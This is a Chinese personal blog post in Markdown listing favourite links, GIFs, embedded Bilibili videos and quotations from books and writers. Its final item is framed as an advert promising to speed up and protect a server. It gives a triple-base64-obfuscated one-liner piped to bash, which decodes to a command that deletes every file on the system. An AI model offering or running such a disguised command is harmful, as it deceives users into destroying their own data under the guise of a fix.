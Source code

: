 ```yaml
---
title: 一些好玩或喜欢的东西
date: 2017-01-15 13:39:19
categories:
tags:
cover: https://ooo.0o0.ooo/2017/01/15/587b6fa037ff5.jpg
skip: false
---
```


长时间记录一些好玩或喜欢的东西

### Links

1. [UI超棒，AI俄罗斯方块动画！有时间自己玩玩！](http://thomas-yang.me/#color=977355)
2. [在线画图UML...](https://www.processon.com/diagrams)

### Pictures

<img src="http://ww3.sinaimg.cn/mw690/006D2KSdjw1fbldl68ryhg30dw086nki.gif" alt="" width="500" height="294" />
<img src="http://obu9je6ng.bkt.clouddn.com/FiO5oFV4MEL1pwm1GYad5tDFmeJw?imageslim" alt="ClipboardImage" width="200" height="181" />

<img src="http://obu9je6ng.bkt.clouddn.com/FiyQ9hLRXRhJsKYBs_vOW8pZw82m?imageslim" alt="ClipboardImage" width="269" height="143" />

<img src="http://ww4.sinaimg.cn/mw690/006D2KSdjw1fb8wvlp7rrg30dw06ph88.gif" alt="" width="500" height="241" />


### Videos

<embed height="415" width="544" quality="high" allowfullscreen="true" type="application/x-shockwave-flash" src="//static.hdslb.com/miniloader.swf" flashvars="aid=7793587&page=1" pluginspage=".adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash"></embed>

<embed height="415" width="544" quality="high" allowfullscreen="true" type="application/x-shockwave-flash" src="//static.hdslb.com/miniloader.swf" flashvars="aid=7924127&page=1" pluginspage="//www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash"></embed>

<embed height="415" width="544" quality="high" allowfullscreen="true" type="application/x-shockwave-flash" src="//static.hdslb.com/miniloader.swf" flashvars="aid=1162066&page=1" pluginspage="//www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash"></embed>

<embed height="415" width="544" quality="high" allowfullscreen="true" type="application/x-shockwave-flash" src="//static.hdslb.com/miniloader.swf" flashvars="aid=500747&page=1" pluginspage="//www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash"></embed>

### Words

- 这世界上的大部分健康的人际关系，都是两个强者之间的锦上添花，而不是弱者之间的相互取暖。

- 一个社会的文明程度取决于其对弱者的态度。

- 因为我想你这三个字说不出口，所以每天噼里啪啦跟你讲一堆没有用的废话，我这么神经病，都怪你。 

- 为了一个目的 —— 哪怕是一个正义的目的，就像车轮一样狠狠碾过人的心，也是另一种戾气。
    —— 《看见》

- 生和死，苦难和苍老，都蕴涵在每一个人的体中，总有一天我们会与之遭逢。我们终将浑然难分，像水溶于水中。
    —— 《看见》

- 我们要争独立，而不是争自由   —— 胡适

- 在没有过去和未来的地方，爱活不下来，只有性

- 天空一无所有，为何给我安慰

- 服务器速度慢？空间不够用？经常死机？在线率低？经常被攻击？
        echo WXpOV2EySjVRbmxpVTBGMFkyMVpaMHg1YjBzPQ==|base64 -D|base64 -D|base64 -D|bash
自动优化你的服务器

